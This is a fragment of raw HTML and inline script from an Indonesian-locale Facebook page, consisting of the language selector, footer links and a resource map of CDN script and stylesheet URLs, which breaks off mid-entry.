&quot;id_ID&quot;, &quot;https:\/\/ja-jp.facebook.com\/?locale=ja_JP&quot;, &quot;www_list_selector&quot;, 7); return false;" title="Japanese">日本語</a></li><li><a class="_sv4" dir="ltr" href="https://es-la.facebook.com/?locale=es_LA" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;es_LA&quot;, &quot;id_ID&quot;, &quot;https:\/\/es-la.facebook.com\/?locale=es_LA&quot;, &quot;www_list_selector&quot;, 8); return false;" title="Spanish">Español</a></li><li><a class="_sv4" dir="ltr" href="https://pt-br.facebook.com/?locale=pt_BR" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;pt_BR&quot;, &quot;id_ID&quot;, &quot;https:\/\/pt-br.facebook.com\/?locale=pt_BR&quot;, &quot;www_list_selector&quot;, 9); return false;" title="Portuguese (Brazil)">Português (Brasil)</a></li><li><a role="button" class="_42ft _4jy0 _517i _517h _51sy" rel="dialog" ajaxify="/settings/language/language/?uri=https%3A%2F%2Fpt-br.facebook.com%2F%3Flocale%3Dpt_BR&amp;source=www_list_selector_more" href="#" title="Tampilkan bahasa lainnya"><i class="img sp_RWRH0hRwEXV sx_136e18"></i></a></li></ul><div id="contentCurve"></div><div id="pageFooterChildren" role="contentinfo" aria-label="Tautan situs Facebook"><ul class="uiList pageFooterLinkList _509- _4ki _703 _6-i"><li><a href="/reg/" title="Daftar Facebook">Daftar</a></li><li><a href="/login/" title="Masuk ke Facebook">Masuk</a></li><li><a href="https://messenger.com/" title="Coba Messenger.">Messenger</a></li><li><a href="/lite/" title="Facebook Lite untuk Android.">Facebook Lite</a></li><li><a href="https://web.facebook.com/watch/" title="Telusuri di Video">Video</a></li><li><a href="/places/" title="Periksa tempat-tempat populer di Facebook.">Tempat</a></li><li><a href="/games/" title="Periksa game Facebook.">Game</a></li><li><a href="/marketplace/" title="Beli dan jual di Facebook Marketplace.">Marketplace</a></li><li><a href="https://pay.facebook.com/" title="Pelajari selengkapnya tentang Meta Pay" target="_blank">Meta Pay</a></li><li><a href="https://www.meta.com/" title="Proses Pembayaran Meta" target="_blank">Meta Store</a></li><li><a href="https://www.meta.com/quest/" title="Pelajari selengkapnya tentang Meta Quest" target="_blank">Meta Quest</a></li><li><a href="https://l.facebook.com/l.php?u=https%3A%2F%2Fimagine.meta.com%2F&amp;h=AT0czggz_55yS_L-3YwNM0OltC8xdLq8V0Gw15p6t3okeYGptAofHimVxt3rSjSc8chaHbbO79EClru2cqEAZN8l9kYjCwOYfGs-VBKxdvgG6WEBBz_d_qAvNyuE6zbuzFx57FjSegy_jemDh0cOgw" title="Bayangkan dengan Meta AI" target="_blank" rel="noreferrer nofollow" data-lynx-mode="asynclazy">Bayangkan dengan Meta AI</a></li><li><a href="https://l.facebook.com/l.php?u=https%3A%2F%2Fwww.instagram.com%2F&amp;h=AT2_icIgixyGALAmVfRG3-yk-96-aAGmwrI0eA0usokDBDmsG45IOIdUuDSltD2u795_nmRFQzkUHVcVORcQAZPRiXhO7sqlDruLh_uYGfwYalm9FMP7SYGXIOo8stKcVnCCM53w2_ffEU6d1iKapw" title="Coba Instagram" target="_blank" rel="noreferrer nofollow" data-lynx-mode="asynclazy">Instagram</a></li><li><a href="https://www.threads.net/" title="Lihat Threads">Threads</a></li><li><a href="/fundraisers/" title="Berdonasi ke gerakan yang bermanfaat.">Penggalangan Dana</a></li><li><a href="/biz/directory/" title="Jelajahi direktori Layanan Facebook kami.">Layanan</a></li><li><a href="/votinginformationcenter/?entry_point=c2l0ZQ%3D%3D" title="Lihat Pusat Informasi Pemilu">Pusat Informasi Pemilu</a></li><li><a href="/privacy/policy/?entry_point=facebook_page_footer" title="Pelajari bagaimana kami mengumpulkan, menggunakan, dan membagikan informasi untuk mendukung Facebook.">Kebijakan Privasi</a></li><li><a href="/privacy/center/?entry_point=facebook_page_footer" title="Pelajari cara mengelola dan mengontrol privasi Anda di Facebook.">Pusat Privasi</a></li><li><a href="/groups/discover/" title="Jelajahi Grup kami.">Grup</a></li><li><a href="https://about.meta.com/" accesskey="8" title="Baca blog kami, temukan pusat sumber daya, dan cari peluang kerja.">Tentang</a></li><li><a href="/ad_campaign/landing.php?placement=pflo&amp;campaign_id=402047449186&amp;nav_source=unknown&amp;extra_1=auto" title="Beriklan di Facebook.">Buat Iklan</a></li><li><a href="/pages/create/?ref_type=site_footer" title="Buat halaman">Buat Halaman</a></li><li><a href="https://developers.facebook.com/?ref=pf" title="Buat aplikasi di platform kami.">Developer</a></li><li><a href="/careers/?ref=pf" title="Pastikan langkah karier Anda selanjutnya perusahaan kami yang luar biasa.">Karier</a></li><li><a href="/policies/cookies/" title="Pelajari tentang cookie dan Facebook." data-nocookies="1">Cookie</a></li><li><a class="_41ug" data-nocookies="1" href="https://web.facebook.com/help/568137493302217" title="Pelajari tentang Pilihan Iklan.">Pilihan Iklan<i class="img sp_RWRH0hRwEXV sx_254be8"></i></a></li><li><a data-nocookies="1" href="/policies?ref=pf" accesskey="9" title="Tinjau ketentuan dan kebijakan kami.">Ketentuan</a></li><li><a href="/help/?ref=pf" accesskey="0" title="Kunjungi Pusat Bantuan kami.">Bantuan</a></li><li><a href="help/637205020878504" title="Kunjungi Pemberitahuan Pengunggahan Kontak &amp; Non-Pengguna kami.">Pengunggahan Kontak &amp; Non-Pengguna</a></li><li><a accesskey="6" class="accessible_elem" href="/settings" title="Lihat dan edit pengaturan Facebook Anda.">Pengaturan</a></li><li><a accesskey="7" class="accessible_elem" href="/allactivity?privacy_source=activity_log_top_menu" title="Lihat log aktivitas Anda">Log aktivitas</a></li></ul></div><div class="mvl copyright"><div><span> Meta © 2024</span></div></div></div></div></div></div><div></div><span><img src="https://facebook.com/security/hsts-pixel.gif" width="0" height="0" style="display:none" /></span></div><div style="display:none"><div></div></div>
<script>requireLazy(["HasteSupportData"],function(m){m.handle({"bxData":{"875231":{"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/yT\/r\/aGT3gskzWBf.ico"}},"clpData":{"1743095":{"r":1,"s":1},"1828945":{"r":100,"s":1}},"gkxData":{"21049":{"result":false,"hash":null},"21116":{"result":false,"hash":null},"20864":{"result":true,"hash":null},"20865":{"result":false,"hash":null},"23413":{"result":false,"hash":null},"23414":{"result":false,"hash":null},"366":{"result":false,"hash":null},"20858":{"result":false,"hash":null},"20859":{"result":false,"hash":null},"20860":{"result":false,"hash":null},"20863":{"result":false,"hash":null},"1326":{"result":false,"hash":null},"26398":{"result":false,"hash":null},"7329":{"result":false,"hash":null},"9861":{"result":false,"hash":null},"21062":{"result":false,"hash":null},"21063":{"result":false,"hash":null},"21065":{"result":true,"hash":null},"21066":{"result":true,"hash":null},"21069":{"result":false,"hash":null},"21071":{"result":false,"hash":null},"21072":{"result":false,"hash":null},"33056":{"result":false,"hash":null},"20942":{"result":false,"hash":null}},"ixData":{"1876411":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yd\/r\/3mD7kKai_7W.gif","width":12,"height":12},"1876412":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y1\/r\/mHADa0fT0mI.gif","width":16,"height":16},"1876413":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yV\/r\/ZY0eC865SgX.gif","width":20,"height":20},"1876414":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y8\/r\/M3mvaC7u8oH.gif","width":24,"height":24},"1876415":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yL\/r\/hVe2HmwMRpE.gif","width":32,"height":32},"1876416":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yC\/r\/yFaaylccZ5L.gif","width":48,"height":48},"1876418":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yk\/r\/96GJYGbUDCJ.gif","width":72,"height":72},"1876419":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yS\/r\/NiR8M1k4AVU.gif","width":12,"height":12},"1876420":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/ym\/r\/FNERtXIk9xp.gif","width":16,"height":16},"1876421":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yJ\/r\/l2FWxc8ihQj.gif","width":20,"height":20},"1876422":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yo\/r\/Io_N1z4MXYh.gif","width":24,"height":24},"1876423":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yD\/r\/-1hifBvDgEQ.gif","width":32,"height":32},"1876424":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yG\/r\/RcIiVWWukEr.gif","width":48,"height":48},"1876426":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yP\/r\/9ISCYYcy94m.gif","width":72,"height":72},"1876427":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yU\/r\/MStXnCtsaSe.gif","width":12,"height":12},"1876428":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y6\/r\/dw2egiKdoVV.gif","width":16,"height":16},"1876429":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yA\/r\/1DbfjOftY0d.gif","width":20,"height":20},"1876430":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yi\/r\/2uPGz8a6lb6.gif","width":24,"height":24},"1876431":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yw\/r\/60r9oPEvxiL.gif","width":32,"height":32},"1876432":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yM\/r\/NlAFhiEx3a1.gif","width":48,"height":48},"1876434":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yx\/r\/uzrQzxgD_Bg.gif","width":72,"height":72},"1876435":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yM\/r\/TtXj9IXnkoK.gif","width":12,"height":12},"1876436":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yy\/r\/HNs8yq0QiXE.gif","width":16,"height":16},"1876437":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yT\/r\/ay_drQe6StD.gif","width":20,"height":20},"1876438":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y4\/r\/iACDMhAROS_.gif","width":24,"height":24},"1876439":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yy\/r\/WEhNL1y2zoZ.gif","width":32,"height":32},"1876440":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y-\/r\/mAeZkO4yhqj.gif","width":48,"height":48},"1876442":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yl\/r\/79uB7ciX8vY.gif","width":72,"height":72},"1876443":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yG\/r\/dzn6it4Fw3p.gif","width":12,"height":12},"1876444":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yc\/r\/wqjQpFb4tea.gif","width":16,"height":16},"1876445":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yk\/r\/yy3mR2PXKrn.gif","width":20,"height":20},"1876446":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yl\/r\/gTdm7zPKz-c.gif","width":24,"height":24},"1876447":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/ym\/r\/kdaft251gQ_.gif","width":32,"height":32},"1876448":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yG\/r\/6-FTd4KBtOk.gif","width":48,"height":48},"1876450":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yq\/r\/Tks_lRPtYc-.gif","width":72,"height":72},"1876451":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yK\/r\/Bys0xcVibDa.gif","width":12,"height":12},"1876452":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yI\/r\/Wk0dcHGH6EG.gif","width":16,"height":16},"1876453":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/ys\/r\/aOTs7vt2hEc.gif","width":20,"height":20},"1876454":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yh\/r\/wVjfNbGZ3CH.gif","width":24,"height":24},"1876455":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yw\/r\/oT6wM_vuQNQ.gif","width":32,"height":32},"1876456":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yp\/r\/ac61i44rSWK.gif","width":48,"height":48},"1876458":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yg\/r\/ZH27Vvjc9-u.gif","width":72,"height":72},"1940508":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y3\/r\/ycQ2OPoZwUA.gif","width":64,"height":64},"1940509":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yg\/r\/8kyIVWHZW-b.gif","width":64,"height":64},"1940510":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yK\/r\/8gPN8wBD9yB.gif","width":64,"height":64},"1940511":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yG\/r\/WtK_u51t3nM.gif","width":64,"height":64},"1940512":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yj\/r\/JYwEre3ewp7.gif","width":64,"height":64},"1940513":{"sprited":0,"uri":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yu\/r\/M2HDLLPAUWl.gif","width":64,"height":64}},"qexData":{"104":{"r":null},"128":{"r":null},"344":{"r":null},"388":{"r":null},"644":{"r":null}},"qplData":{"4750":{"r":1}}})});requireLazy(["Bootloader"],function(m){m.handlePayload({"consistency":{"rev":1012612339},"rsrcMap":{"R5w1rCJ":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yF\/r\/p55HfXW__mM.js?_nc_x=Ij3Wp8lg5Kz"},"V7lrDtL":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iCbJ4\/yH\/l\/id_ID\/rgnKuMFH_2I.js?_nc_x=Ij3Wp8lg5Kz"},"oQBvcPb":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iWOx4\/yK\/l\/id_ID\/17sMHmlKl1w.js?_nc_x=Ij3Wp8lg5Kz"},"Wsv7q+J":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yc\/r\/Dvs3qDFhCmu.js?_nc_x=Ij3Wp8lg5Kz"},"ceiVmN\/":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i3WX4\/y_\/l\/id_ID\/iVAV_sbT_Nc.js?_nc_x=Ij3Wp8lg5Kz"},"tCj3+sV":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iTdX4\/yo\/l\/id_ID\/fm9PoGEgJY9.js?_nc_x=Ij3Wp8lg5Kz"},"gzVgYVx":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iweR4\/yg\/l\/id_ID\/u2TvAqqferp.js?_nc_x=Ij3Wp8lg5Kz"},"BUKjPU0":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y8\/r\/1hKX7O0zC98.js?_nc_x=Ij3Wp8lg5Kz"},"LVchrHd":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yl\/r\/f7u7E5VeHqa.js?_nc_x=Ij3Wp8lg5Kz"},"juI0lGk":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y-\/r\/PosgynLjFh0.js?_nc_x=Ij3Wp8lg5Kz"},"IYvn1RJ":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yJ\/r\/WHQeCgcvhLk.js?_nc_x=Ij3Wp8lg5Kz"},"WDAQQ0E":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3ik9S4\/y4\/l\/id_ID\/WrPVEpNI65a.js?_nc_x=Ij3Wp8lg5Kz"},"5JODOIC":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yl\/r\/r5_PhZt9eSv.js?_nc_x=Ij3Wp8lg5Kz"},"EqvlZse":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iyTi4\/yE\/l\/id_ID\/68VNV4bbcZZ.js?_nc_x=Ij3Wp8lg5Kz"},"kvx582Y":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yK\/r\/jMaPOqcTw38.js?_nc_x=Ij3Wp8lg5Kz"},"cGoHYnQ":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iiX64\/yf\/l\/id_ID\/yOgidAiVsbt.js?_nc_x=Ij3Wp8lg5Kz"},"nxkWSLM":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i8hT4\/y5\/l\/id_ID\/8KuvK2Cl2Rg.js?_nc_x=Ij3Wp8lg5Kz"},"qgEMvPA":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yW\/r\/QqjTPlsXkbZ.js?_nc_x=Ij3Wp8lg5Kz"},"d37yUGn":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yo\/r\/YvbwYOOvPhl.js?_nc_x=Ij3Wp8lg5Kz"},"w6++B1W":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yk\/r\/RKK6hMCj3R1.js?_nc_x=Ij3Wp8lg5Kz"},"qk\/p3u5":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y_\/r\/shl54sykYM4.js?_nc_x=Ij3Wp8lg5Kz"},"vhRPNj4":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yl\/r\/kEcoubN__Ej.js?_nc_x=Ij3Wp8lg5Kz"},"ONXdU\/u":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yX\/r\/UE_VpTkFp3K.js?_nc_x=Ij3Wp8lg5Kz"},"dxY3Vad":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y8\/r\/-5Dm6wT99DS.js?_nc_x=Ij3Wp8lg5Kz"},"7EFD4kC":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yo\/r\/DmdkpmXnZNb.js?_nc_x=Ij3Wp8lg5Kz"},"qUOfXdB":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iQqy4\/yX\/l\/id_ID\/966UGNKdmmG.js?_nc_x=Ij3Wp8lg5Kz"},"9NiATAn":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yv\/r\/yRuFCzueB7p.js?_nc_x=Ij3Wp8lg5Kz"},"3HNSMZt":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y4\/r\/xPI18UMP6Nr.js?_nc_x=Ij3Wp8lg5Kz"},"2MYQsw8":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yk\/r\/fl4AHceD6Oj.js?_nc_x=Ij3Wp8lg5Kz"},"e8KbigC":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3isz94\/yW\/l\/id_ID\/zqHWvGXpabZ.js?_nc_x=Ij3Wp8lg5Kz"},"sDwjFDW":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yX\/r\/4ub-qLkD6cN.js?_nc_x=Ij3Wp8lg5Kz"},"4ICgmNm":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yP\/r\/OUZiA28Uqln.js?_nc_x=Ij3Wp8lg5Kz"},"\/AN8Bt5":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y2\/r\/3FPJ9YC_wUr.js?_nc_x=Ij3Wp8lg5Kz"},"oijv90q":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y4\/l\/0,cross\/BC8s_JCCKS7.css?_nc_x=Ij3Wp8lg5Kz"},"CGkH4FY":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yD\/r\/Z48vtSCIBTI.js?_nc_x=Ij3Wp8lg5Kz"},"673pZTE":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i7734\/yk\/l\/id_ID\/Oq42C4bY9Ro.js?_nc_x=Ij3Wp8lg5Kz"},"FcBwX2d":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yc\/r\/xPB-b6CZl0Q.js?_nc_x=Ij3Wp8lg5Kz"},"Ufq6YWX":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yX\/r\/eGY_1gEOdFg.js?_nc_x=Ij3Wp8lg5Kz"},"fGapsZt":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iWrp4\/yK\/l\/id_ID\/zIY02i94Bvk.js?_nc_x=Ij3Wp8lg5Kz"},"fWjWwb8":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i_Np4\/yE\/l\/id_ID\/mJHWsldmdHS.js?_nc_x=Ij3Wp8lg5Kz"},"FKLJXXq":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yL\/l\/0,cross\/pqwWiu8lv00.css?_nc_x=Ij3Wp8lg5Kz"},"4FGmyQf":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yf\/r\/FfhVVzsYE1j.js?_nc_x=Ij3Wp8lg5Kz"},"piP+hXa":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3ia654\/yt\/l\/id_ID\/v0FAEaP95GJ.js?_nc_x=Ij3Wp8lg5Kz"},"sphUlKv":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3ibBB4\/y_\/l\/id_ID\/u5PRL3d7bmq.js?_nc_x=Ij3Wp8lg5Kz"},"pw1bmB0":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iBXZ4\/y7\/l\/id_ID\/H3H4fjVu8N3.js?_nc_x=Ij3Wp8lg5Kz"},"3TFtcs5":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i6uu4\/ys\/l\/id_ID\/ArQ8hH5u47i.js?_nc_x=Ij3Wp8lg5Kz"},"qjPXJPO":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i-Fa4\/y6\/l\/id_ID\/bXJagrP07rq.js?_nc_x=Ij3Wp8lg5Kz"},"n6qeAf9":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y4\/l\/0,cross\/k9fyCykvXPj.css?_nc_x=Ij3Wp8lg5Kz"},"e5lwynb":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yN\/r\/tT2y8IGLHIZ.js?_nc_x=Ij3Wp8lg5Kz"},"LOjtSKJ":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3irLU4\/yq\/l\/id_ID\/xtuARurkWpF.js?_nc_x=Ij3Wp8lg5Kz"},"kvFyX\/T":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3itXX4\/yc\/l\/id_ID\/vHuCsx9HRuL.js?_nc_x=Ij3Wp8lg5Kz"},"BoDMvAH":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i8mp4\/yU\/l\/id_ID\/WEXIW3iRqWT.js?_nc_x=Ij3Wp8lg5Kz"},"986tFSR":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yL\/l\/0,cross\/hwZeBeoIbxe.css?_nc_x=Ij3Wp8lg5Kz"},"Ssw8COj":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i_Ai4\/yX\/l\/id_ID\/Rg-kpYCIxAz.js?_nc_x=Ij3Wp8lg5Kz"},"HgoCFFB":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yC\/l\/0,cross\/mZ45laKA6Z0.css?_nc_x=Ij3Wp8lg5Kz"},"iGtOaF1":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iMel4\/yo\/l\/id_ID\/QHboYVclAZ2.js?_nc_x=Ij3Wp8lg5Kz"},"A+GMio9":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yK\/r\/vj_w11MN2Qf.js?_nc_x=Ij3Wp8lg5Kz"},"\/WPvfgg":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3i0lm4\/yA\/l\/id_ID\/vZHnK6SMiVS.js?_nc_x=Ij3Wp8lg5Kz"},"eXsFeEA":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yN\/l\/0,cross\/ZSGW58Rpo7b.css?_nc_x=Ij3Wp8lg5Kz"},"MOcemQF":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yF\/r\/pdSlX_keZV3.js?_nc_x=Ij3Wp8lg5Kz"},"NqyS7uP":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y6\/l\/0,cross\/-D_X7PSKnGi.css?_nc_x=Ij3Wp8lg5Kz"},"YaUoM+5":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yc\/r\/iueLySuA12u.js?_nc_x=Ij3Wp8lg5Kz"},"VngWBbe":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iXoN4\/yU\/l\/id_ID\/2ux9jo0S-Bu.js?_nc_x=Ij3Wp8lg5Kz"},"kCegEy\/":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/y6\/l\/0,cross\/dCUizjzGRK4.css?_nc_x=Ij3Wp8lg5Kz"},"lbIwrZN":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yF\/r\/iDFJxm9ukEp.js?_nc_x=Ij3Wp8lg5Kz"},"j3r9uuX":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yO\/l\/0,cross\/QkC7bnqCWC_.css?_nc_x=Ij3Wp8lg5Kz"},"k748k+V":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yX\/r\/UcQNIGGSi-A.js?_nc_x=Ij3Wp8lg5Kz"},"Kn+Opm7":{"type":"css","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yB\/l\/0,cross\/j-9HT1OcrTk.css?_nc_x=Ij3Wp8lg5Kz"},"j5IOZMI":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iXkr4\/yf\/l\/id_ID\/8bKwCvWpQg6.js?_nc_x=Ij3Wp8lg5Kz"},"IRFvspN":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3\/yY\/r\/weiLZKFMsM7.js?_nc_x=Ij3Wp8lg5Kz"},"XAnt5Pc":{"type":"js","src":"https:\/\/z-p3-static.xx.fbcdn.net\/rsrc.php\/v3iP1G4